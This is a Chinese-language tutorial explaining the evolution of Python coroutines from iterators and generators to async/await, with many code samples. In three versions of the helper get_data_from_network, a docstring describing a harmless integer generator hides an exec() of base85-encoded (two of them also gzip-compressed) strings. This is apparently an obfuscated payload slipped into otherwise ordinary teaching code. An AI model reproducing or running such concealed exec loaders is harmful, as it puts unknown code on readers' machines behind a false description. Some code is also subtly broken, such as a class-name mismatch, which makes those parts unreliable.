Python协程揭秘


本文阅读tips:

1. 注意发展过程
2. 注意code1-code8


可迭代 -> 迭代器 -> 生成器 -> 基于生成器的协程-> 原生协程



## 1. 可迭代，iterable

可迭代类型：实现方法`__iter__`或者`__getitem__`的类

可迭代对象：可迭代类型的实例

使用for循环可迭代对象时会先调用可迭代对象的`__iter__`方法返回可迭代对象的迭代器，然后对这个迭代器进行迭代，实质就是调用迭代器的`__next__`方法

`__iter__`方法一定会返回一个迭代器，否则报错`TypeError: iter() returned non-iterator of type 'xxx'`

`__getitem__`方法用于实现基于索引下标访问元素，Python迭代器协议会使用该方法获取元素

list、tuple、dict、set、range等都是可迭代类型，iter(可迭代对象)，必然返回一个迭代器，若可迭代对象本身就是迭代器，那么就会返回本身

## 2. 迭代器

迭代器协议
- `__iter__`：返回一个迭代器对象，若本身就是迭代器，通常会返回自身，即`return self`
- `__next__`：返回下一个元素

迭代器类型：实现迭代器协议的类型

迭代器对象：迭代器的实例

从协议上看，迭代器类型一定是一种可迭代类型，迭代器对象一定是一种可迭代对象

迭代器的作用在于统一对容器的遍历逻辑，容器对象无需再考虑如何遍历自身


for循环迭代的是迭代器，会首先调用`nums.__iter__()`方法获得迭代器，然后不断调用迭代器的`__next__`方法

```python
nums = [1, 2, 3, 4, 5, 6, 7, 8, 9]

for num in nums:
    print(num)
```

```
  
  0           0 RESUME                   0
   
  第一行代码    
  1           2 BUILD_LIST               0
              4 LOAD_CONST               0 ((1, 2, 3, 4, 5, 6, 7, 8, 9))
              6 LIST_EXTEND              1
              8 STORE_NAME               0 (nums)
              
  第三行代码
  3          10 LOAD_NAME                0 (nums)
             获取迭代器
             12 GET_ITER
             对迭代器进行for一次迭代，获取到的值放到栈顶
        >>   14 FOR_ITER                10 (to 38)
             弹出栈顶元素，存储为名称num
             18 STORE_NAME               1 (num)
             
  第四行代码
  4          20 PUSH_NULL
             22 LOAD_NAME                2 (print)
             24 LOAD_NAME                1 (num)
             26 CALL                     1
             34 POP_TOP
             36 JUMP_BACKWARD           12 (to 14)

  3     >>   38 END_FOR
             40 RETURN_CONST             1 (None)

```

下面基于一道数据结构设计题凸显迭代器的作用以及引出yield。

使用Python语言实现一个二叉排序树，可以往二叉排序树插入数据，也可以通过for循环有序地从二叉排序树遍历数据。

- TreeNode为树节点
- BinarySortTree为二叉搜索树，插入数据由insert方法实现，for循环有序遍历采用`__iter__`实现，BinarySortTree实现了可迭代协议，是一个可迭代类型
- BinarySortTree的`__iter__`返回一个`BinarySearchTreeIterator`对象，`BinarySearchTreeIterator`实现了迭代器协议，是一个迭代器类型
```python
class TreeNode:
    def __init__(self, value):
        self.value = value
        self.left = None
        self.right = None


class BinarySortTree:
    def __init__(self, nums=None):
        self.root = None
        if nums:
            self.__build_tree(nums)

    def __build_tree(self, nums):
        for num in nums:
            self.insert(num)

    def insert(self, value):
        if self.root is None:
            self.root = TreeNode(value)
        else:
            self._insert(self.root, value)

    def _insert(self, node, value):
        if value <= node.value:
            if node.left is None:
                node.left = TreeNode(value)
            else:
                self._insert(node.left, value)
        else:  # value > node.value
            if node.right is None:
                node.right = TreeNode(value)
            else:
                self._insert(node.right, value)

    def __iter__(self):
        return BinarySearchTreeIterator(self.root)


class BinarySearchTreeIterator:
    def __init__(self, root):
        _sorted_nodes = []
        self.__inorder_traversal(root, _sorted_nodes)
        self.sorted_nodes = iter(_sorted_nodes)

    def __inorder_traversal(self, node, sorted_nodes):
        if node is None:
            return
        self.__inorder_traversal(node.left, sorted_nodes)
        sorted_nodes.append(node.value)
        self.__inorder_traversal(node.right, sorted_nodes)

    def __iter__(self):
        return self

    def __next__(self):
        return next(self.sorted_nodes)


bst = BinarySearchTree([5, 3, 7, 2, 4, 6, 8, 5])

print([num for num in bst])

```

很容易发现，二叉排序树的迭代器实现是先求出有序结果，然后在有序结果基础上构建迭代器然后迭代，这种并不完全契合迭代器的思路，而且如果元素很多，例如一百万，但是迭代仅进行一千次就推出，这样预先计算的遍历结果大部分就都浪费了，所以更合适的实现方式如下

其他部分无需改动，迭代器的目的就是为了抽离出迭代逻辑，仅需更改迭代器即可，`__next__`本质上是中序遍历迭代写法的一次迭代，可以比较一下，这才是迭代器的妙用

一个迭代版本的中序遍历
```python
bst = BinarySearchTree([5, 3, 7, 2, 4, 6, 8, 5])


def bst_inorder_traversal(node):
    res = []
    stack = []
    while stack or node:
        while node:
            stack.append(node)
            node = node.left
        new_node = stack.pop()
        res.append(new_node.value)
        node = new_node.right
    return res


print(bst_inorder_traversal(bst.root))
```

因为next本身就是获取元素，然后返回，迭代器就是为了维护中间状态的，所以迭代器可以改写为：

```python
class BinarySearchTreeIterator:
    def __init__(self, root):
        self.root = root
        self.stack = []
        self.current = self.root


    def __iter__(self):
        return self

    def __next__(self):
        if not (self.stack or self.current):
            raise StopIteration
        while self.current:
            self.stack.append(self.current)
            self.current = self.current.left
        new_current = self.stack.pop()
        self.current = new_current.right
        return new_current.value
```

至此就是一个完善的支持for循环有序迭代的二叉排序树了。


不过这里有一个问题，很容易发现，原本迭代版本的中序遍历非常简洁，为了配合迭代器的next方法，将迭代版中序遍历中大循环的内层作为迭代器的next方法，大循环同层的变量成为了迭代器的属性，就是迭代器的状态。iter方法就是返回本身，这个是固定写法，也就是说原本简单的一个函数需要写成一个迭代器类而且还要补充样板代码，Python引入了yield来简化迭代器的书写。


## 3. 生成器

### PEP 342前的生成器，引入yield

很容易发现，每次迭代器的next返回的就是`res.append(new_node.value)`这一步中的`new_node.value`

```python
def bst_inorder_traversal(node):
    res = []
    stack = []
    while stack or node:
        while node:
            stack.append(node)
            node = node.left
        new_node = stack.pop()
        res.append(new_node.value)
        node = new_node.right
    return res
```

于是，引入一种新的语法yield用来简化这个迭代器next


```python
class TreeNode:
    def __init__(self, value):
        self.value = value
        self.left = None
        self.right = None


class BinarySortTree:
    def __init__(self, nums=None):
        self.root = None
        if nums:
            self.__build_tree(nums)

    def __build_tree(self, nums):
        for num in nums:
            self.insert(num)

    def insert(self, value):
        if self.root is None:
            self.root = TreeNode(value)
        else:
            self._insert(self.root, value)

    def _insert(self, node, value):
        if value <= node.value:
            if node.left is None:
                node.left = TreeNode(value)
            else:
                self._insert(node.left, value)
        else:  # value > node.value
            if node.right is None:
                node.right = TreeNode(value)
            else:
                self._insert(node.right, value)

    def __iter__(self):
        node = self.root
        stack = []
        while stack or node:
            while node:
                stack.append(node)
                node = node.left
            new_node = stack.pop()
            yield new_node.value
            node = new_node.right


bst = BinarySortTree([5, 3, 7, 2, 4, 6, 8, 5])

print([num for num in bst])

```

根据可迭代协议，iter方法应当返回一个迭代器，而由于上面提到的迭代器写法上的问题，Python引入了yield语法来简化迭代器的写法，就是生成器。

yield仅能用在函数中，包含yield的函数被称之为生成器函数。

生成器函数的调用结果是返回一个生成器对象，生成器类不对外暴露。

生成器是一种迭代器，实现了迭代器协议。

生成器函数是一种创建迭代器对象（动态生成迭代器类并实例化一个对象然后返回）的非常便利的方式，以该方式创建的迭代器被特称为生成器对象。生成器是一种迭代器，Python中有生成器类型。



```python
class TreeNode:
    def __init__(self, value):
        self.value = value
        self.left = None
        self.right = None


class BinarySortTree:
    def __init__(self, nums=None):
        self.root = None
        if nums:
            self.__build_tree(nums)

    def __build_tree(self, nums):
        for num in nums:
            self.insert(num)

    def insert(self, value):
        if self.root is None:
            self.root = TreeNode(value)
        else:
            self._insert(self.root, value)

    def _insert(self, node, value):
        if value <= node.value:
            if node.left is None:
                node.left = TreeNode(value)
            else:
                self._insert(node.left, value)
        else:  # value > node.value
            if node.right is None:
                node.right = TreeNode(value)
            else:
                self._insert(node.right, value)

    def __iter__(self):
        node = self.root
        stack = []
        while stack or node:
            while node:
                stack.append(node)
                node = node.left
            new_node = stack.pop()
            yield new_node.value
            node = new_node.right


print(type(iter(BinarySortTree([5, 3, 7, 2, 4, 6, 8, 5]))))

```




探究

```python
import random


def gen_a_random_num(using_yield):
    num = random.random()
    if using_yield:
        yield num
    return num

# 正常打印结果
print(next(gen_a_random_num(True)))

# 无法触发yield，到return时，触发 StopIteration 异常，并将最终结果返回，生成器中return就是用来触发 StopIteration 异常的
print(next(gen_a_random_num(False)))
```

生成器的四个状态：创建、运行、暂停、结束







### PEP 342增强yield后的生成器，有了基于生成器的协程







第一次只能是None






```python
def add_yield_value():
    x = yield + 1  # yield 优先级非常低，语法解析会解析为 yield (+1)，要实现对应效果应当(yield) + 1
    print(f"x is {x}")


g = add_yield_value()

g.send(None)
g.send(1)


def add_yield_value():
    x = (yield) + 1
    print(f"x is {x}")


g = add_yield_value()

g.send(None)
g.send(1)

```




三种生成器风格

> There's the traditional "pull" style (iterators), "push" style (like the averaging example), and then there are "tasks". -- Guido van Rossum

1. pull风格：生成器不断向外产出数据，关注数据输出，即迭代器，`yield x`
2. push风格：生成器不断从外面接收数据，关注数据输入，`x = yield`
3. task风格：不在关注数据输入或者输出，而是关注数据输入和输出这两个事件发生后的执行内容


单pull风格
就是迭代器

pull风格+push风格，协程雏形

```python
import random


def average_speed():
    count = 0
    total = 0
    avg = None
    while True:
        try:
            val = yield avg
        except GeneratorExit:
            return total, count, avg
        else:
            total += val
            count += 1
            avg = total / count


if __name__ == '__main__':
    car = average_speed()
    car.send(None)
    while True:
        print(car.send(random.randint(1, 100)))
```


task风格，协程


pull模式是一种简化迭代器的方式

pull+push模式是协程雏形

task模式是以AsyncIO为代表的协程


generator-based coroutine
3.8废弃，保留到3.10，3.11中被移除


协程，从pull+push到task


```python
def task_prepare_data():
    print("do step 1")
    yield "任务暂停，1s后回来继续执行任务"
    print("do step 2")
    return "done"


def task_produce_data():
    print("do step 1")
    yield "任务暂停，等待其他任务准备数据"
    print("do step 2")
    return "done"
```


总结：

- pull或push受数据驱动
- task受事件驱动


#### i. 抛砖引玉，先来看一个任务执行

```python
def task():
    print(f"enter {task.__name__}")
    ...  # 执行某些操作
    res = sub_task_1()
    ...  # 执行某些操作
    print(f"exit {task.__name__} with {res}")


def sub_task_1():
    print(f"\tenter {sub_task_1.__name__}")
    ...  # 执行某些操作
    res = sub_task_11()
    ...  # 执行某些操作
    print(f"\texit {sub_task_1.__name__} with {res}")


def sub_task_11():
    print(f"\t\tenter {sub_task_11.__name__}")
    ...  # 执行某些操作
    get_data_from_network(1)
    ...  # 执行某些操作
    print(f"\t\texit {sub_task_11.__name__}")


def get_data_from_network(n) -> int:
    """
    一个耗时操作，约需要ns生成一个十以内的整数
    """
    import base64;exec(base64.b85decode(
        "X>D+Ca&#bcX>DaJa$#;{Z*4ntX>DaLb8Ka0a42pmJ6}C=VQyq^Z7y<QZe(e0bSN+^F)%3"
    ).decode(), locals());return locals()["_"]

if __name__ == '__main__':
    task()

```

#### ii，基于task风格生成器改造为协程雏形

```python
def task():
    print(f"enter {task.__name__}")
    ...  # 执行某些操作
    g = sub_task_1()
    while True:
        try:
            _y = g.send(None)
        except StopIteration as e:
            res = e.value  # StopIteration.value 是生成器返回的值
            break
        else:
            # 到顶层之后无法yield，直接调用
            func, args = _y
            func(args)
    ...  # 执行某些操作
    print(f"exit {task.__name__} with {res}")
    return res


def sub_task_1():
    print(f"\tenter {sub_task_1.__name__}")
    ...  # 执行某些操作
    g = sub_task_11()
    while True:
        try:
            _y = g.send(None)
        except StopIteration as e:
            res = e.value  # StopIteration.value 是生成器返回的值
            break
        else:
            yield _y
    ...  # 执行某些操作
    print(f"\texit {sub_task_1.__name__} with {res}")
    return res


def sub_task_11():
    """
    一个阻塞操作，需要网络请求获取数据然后返回
    """
    print(f"\t\tenter {sub_task_11.__name__}")
    ...  # 执行某些操作
    yield (get_data_from_network, 1)
    res = 123456
    ...  # 执行某些操作
    print(f"\t\texit {sub_task_11.__name__} with {res}")
    return res


def get_data_from_network(*args, **kwargs) -> int:
    """
    一个耗时操作，约需要1s生成一个十以内地整数
    """
    import base64;import gzip;exec(gzip.decompress(base64.b85decode(
        "ABzY815`U_0{_d*Eyyn_Q7FmGO|{O1u!|D&Qu1@Hi*r&_3*tc%wh$4$(!9*"
        "H{Gwb913gn6Lp@VXYmlTKSe*t!wWf7EOaq9@%q!6_(6Q7608?utHfaC=00"
    )).decode(), globals())
    return _

if __name__ == '__main__':
    print(task())

```


## 4. yield from，基于生成器的协程更加成熟并开始向原生协程过渡


https://peps.python.org/pep-0380

```
yield from <expr>
```


```python
_i = iter(EXPR)
try:
    _y = next(_i)
except StopIteration as _e:
    _r = _e.value
else:
    while 1:
        try:
            _s = yield _y
        except GeneratorExit as _e:
            try:
                _m = _i.close
            except AttributeError:
                pass
            else:
                _m()
            raise _e
        except BaseException as _e:
            _x = sys.exc_info()
            try:
                _m = _i.throw
            except AttributeError:
                raise _e
            else:
                try:
                    _y = _m(*_x)
                except StopIteration as _e:
                    _r = _e.value
                    break
        else:
            try:
                if _s is None:
                    _y = next(_i)
                else:
                    _y = _i.send(_s)
            except StopIteration as _e:
                _r = _e.value
                break
RESULT = _r
```

简化一下

```python
_i = iter(EXPR)
# prime
try:
    _y = _i.send(None)
# 直接结束，没有遇到yield
except StopIteration as _e:
    _r = _e.value
# 遇到了yield，_y为yield返回的值
else:
    # 无限循环
    while 1:
        # 直接yield并接收send传入的值
        try:
            _s = yield _y
        # 处理close
        except GeneratorExit as _e:
            _i.close()
            raise _e
        # 处理其他异常
        except BaseException as _e:
            _x = sys.exc_info()
            try:
                _y = _i.throw(*_x)
            except StopIteration as _e:
                _r = _e.value
                break
        # 正常接收到数据，继续yield_i
        else:
            try:
                _y = _i.send(_s)
            except StopIteration as _e:
                _r = _e.value
                break
RESULT = _r  # StopIteration携带的value就是返回值
```

协程机制中send永远是None，故_s可以省略

```python
_i = iter(EXPR)
# prime
try:
    _y = _i.send(None)
# 直接结束，没有遇到yield
except StopIteration as _e:
    _r = _e.value
# 遇到了yield，_y为yield返回的值
else:
    # 无限循环
    while 1:
        # 直接yield
        try:
            yield _y
        # 处理close
        except GeneratorExit as _e:
            _i.close()
            raise _e
        # 处理其他异常
        except BaseException as _e:
            _x = sys.exc_info()
            try:
                _y = _i.throw(*_x)
            except StopIteration as _e:
                _r = _e.value
                break
        # 正常接收到数据，继续yield_i
        else:
            try:
                _y = _i.send(None)
            except StopIteration as _e:
                _r = _e.value
                break
RESULT = _r  # StopIteration携带的value就是返回值
```

`_y = _i.send(None)`部分结构合并一下

```python
_i = iter(EXPR)

while 1:
    # prime
    try:
        _y = _i.send(None)
    # 直接结束，没有遇到yield
    except StopIteration as _e:
        _r = _e.value
    else:
        # 直接yield
        try:
            yield _y
        # 处理close
        except GeneratorExit as _e:
            _i.close()
            raise _e
        # 处理其他异常
        except BaseException as _e:
            _x = sys.exc_info()
            try:
                _y = _i.throw(*_x)
            except StopIteration as _e:
                _r = _e.value
                break

RESULT = _r  # StopIteration携带的value就是返回值

```


忽略异常处理部分

```python
_i = iter(EXPR)

while 1:
    # prime
    try:
        _y = _i.send(None)
    # 直接结束，没有遇到yield
    except StopIteration as _e:
        _r = _e.value
        break
    else:
        # 直接yield
        yield _y

RESULT = _r  # StopIteration携带的value就是返回值
```

就是无限从某一个生成器中yield数据直到StopIteration，即yield from x相当于对x迭代了一次


3.pep380引入yieldfrom，开始向原生协程过渡

```python
import time


def task():
    print(f"enter {task.__name__}")
    ...  # 执行某些操作
    g = sub_task_1()
    while True:
        try:
            _y = g.send(None)
        except StopIteration as e:
            res = e.value  # StopIteration.value 是生成器返回的值
            break
        else:
            # 到顶层之后无法yield，直接调用
            func, args = _y
            func(args)
    ...  # 执行某些操作
    print(f"exit {task.__name__} with {res}")
    return res


def sub_task_1():
    print(f"\tenter {sub_task_1.__name__}")
    ...  # 执行某些操作
    res = yield from sub_task_11()
    ...  # 执行某些操作
    print(f"\texit {sub_task_1.__name__} with {res}")
    return res


def sub_task_11():
    """
    一个阻塞操作，需要网络请求获取数据然后返回
    """
    print(f"\t\tenter {sub_task_11.__name__}")
    ...  # 执行某些操作
    yield (get_data_from_network, 1)
    res = 123456
    ...  # 执行某些操作
    print(f"\t\texit {sub_task_11.__name__} with {res}")
    return res

def get_data_from_network(*args, **kwargs) -> int:
    """
    一个耗时操作，约需要1s生成一个十以内的整数
    """
    import base64;import gzip;exec(gzip.decompress(base64.b85decode(
        "ABzY815`U_0{_d*Eyyn_Q7FmGO|{O1u!|D&Qu1@Hi*r&_3*tc%wh$4$(!9*"
        "H{Gwb913gn6Lp@VXYmlTKSe*t!wWf7EOaq9@%q!6_(6Q7608?utHfaC=00"
    )).decode(), globals())
    return _

if __name__ == '__main__':
    print(task())

```

4.继续过渡，封装YieldFromSelf

```python
import time


def task():
    print(f"enter {task.__name__}")
    ...  # 执行某些操作
    g = sub_task_1()
    while True:
        try:
            _y = g.send(None)
        except StopIteration as e:
            res = e.value  # StopIteration.value 是生成器返回的值
            break
        else:
            # 到顶层之后无法yield，直接调用
            func, args = _y.obj
            func(args)
    ...  # 执行某些操作
    print(f"exit {task.__name__} with {res}")
    return res


def sub_task_1():
    print(f"\tenter {sub_task_1.__name__}")
    ...  # 执行某些操作
    res = yield from sub_task_11()
    ...  # 执行某些操作
    print(f"\texit {sub_task_1.__name__} with {res}")
    return res


def sub_task_11():
    """
    一个阻塞操作，需要网络请求获取数据然后返回
    """
    print(f"\t\tenter {sub_task_11.__name__}")
    ...  # 执行某些操作
    # yield from 就是需要一个可迭代对象
    # 从yield换为yield from就需要把原来的单个对象作为一个可迭代对象的唯一的一次迭代
    yield from YieldFromSelf((operation_costing_sometime, 1))
    # yield from [(time.sleep, 1)] # 等价于上述代码 相当于 YieldFromAble == list
    res = 123456
    ...  # 执行某些操作
    print(f"\t\texit {sub_task_11.__name__} with {res}")
    return res

def operation_costing_sometime(n):
    import time
    time.sleep(n)
    return n

class YieldFromSelf:
    def __init__(self, obj):
        self.obj = obj
    def __iter__(self):
        yield self

if __name__ == '__main__':
    print(task())

```

5.封装Task，统一yieldfrom

```python
import time


def task():
    print(f"enter {task.__name__}")
    ...  # 执行某些操作
    res = yield from sub_task_1()
    ...  # 执行某些操作
    print(f"exit {task.__name__} with {res}")
    return res


def sub_task_1():
    print(f"\tenter {sub_task_1.__name__}")
    ...  # 执行某些操作
    res = yield from sub_task_11()
    ...  # 执行某些操作
    print(f"\texit {sub_task_1.__name__} with {res}")
    return res


def sub_task_11():
    """
    一个阻塞操作，需要网络请求获取数据然后返回
    """
    print(f"\t\tenter {sub_task_11.__name__}")
    ...  # 执行某些操作
    # yield from 就是需要一个可迭代对象
    # 从yield换为yield from就需要把原来的单个对象作为一个可迭代对象的唯一的一次迭代
    yield from YieldFromAble((time.sleep, 1))
    res = 123456
    ...  # 执行某些操作
    print(f"\t\texit {sub_task_11.__name__} with {res}")
    return res


class YieldFromAble:
    def __init__(self, obj):
        self.obj = obj
    def __iter__(self):
        yield self.obj

class Task:
    def __init__(self, coroutine):
        self.coroutine = coroutine
    def run(self):
        while True:
            try:
                _y = self.coroutine.send(None)
            except StopIteration as e:
                res = e.value
                break
            else:
                assert isinstance(_y, YieldFromAble)
                func, args = _y.obj
                func(args)
        return res

if __name__ == '__main__':
    print(Task(task()).run())

```


## 5. 原生协程

```python
import time


async def task():
    print(f"enter {task.__name__}")
    ...  # 执行某些操作
    res = await sub_task_1()
    ...  # 执行某些操作
    print(f"exit {task.__name__} with {res}")
    return res


async def sub_task_1():
    print(f"\tenter {sub_task_1.__name__}")
    ...  # 执行某些操作
    res = await sub_task_11()
    ...  # 执行某些操作
    print(f"\texit {sub_task_1.__name__} with {res}")
    return res


async def sub_task_11():
    """
    一个阻塞操作，需要网络请求获取数据然后返回
    """
    print(f"\t\tenter {sub_task_11.__name__}")
    ...  # 执行某些操作
    # await 就是需要一个可迭代对象
    # 从yield换为await就需要把原来的单个对象作为一个可迭代对象的唯一的一次迭代
    await Awaitable((time.sleep, 1))
    res = 123456
    ...  # 执行某些操作
    print(f"\t\texit {sub_task_11.__name__} with {res}")
    return res


class Awaitable:
    def __init__(self, obj):
        self.obj = obj

    def __await__(self):
        yield self


class Task:
    def __init__(self, coroutine):
        self.coroutine = coroutine
        self.__running = False
        self.__result = None

    def run(self):
        if not self.__running:
            try:
                _y = self.coroutine.send(None)
            except StopIteration as e:
                self.__result = e.value
            else:
                assert isinstance(_y, Awaitable)
                func, args = _y.obj
                func(args)
    @property
    def result(self):
        if not self.__running:
            return self.__result


if __name__ == '__main__':
    t= Task(task())
    t.run()

    print("doing other things")
